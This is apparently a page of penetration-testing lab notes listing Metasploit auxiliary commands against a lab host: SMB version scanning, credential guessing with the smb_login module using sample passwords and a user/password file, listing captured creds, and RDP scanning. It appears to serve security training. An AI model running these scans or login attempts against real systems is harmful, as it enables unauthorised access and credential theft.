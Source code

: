 ##### Auxiliary

```
show auxiliary

search -h

search type:auxiliary name:smb

use scanner/smb/smb2

info

run

services -p 445 --rhosts

use scanner/smb/smb_login

options

set SMBDomain corp.com

set SMBUser Offsec

set SMBPass ABCDEFG123!

setg RHOSTS 10.11.0.22

set THREADS 10

set THREADS 10

run

set SMBPass Qwerty09!

run

creds

set USERPASS_FILE /home/kali/users.txt # file containing users and passwords separated by space

run

use scanner/rdp/rdp_scanner

show options

set RHOSTS 10.11.0.22

run

```
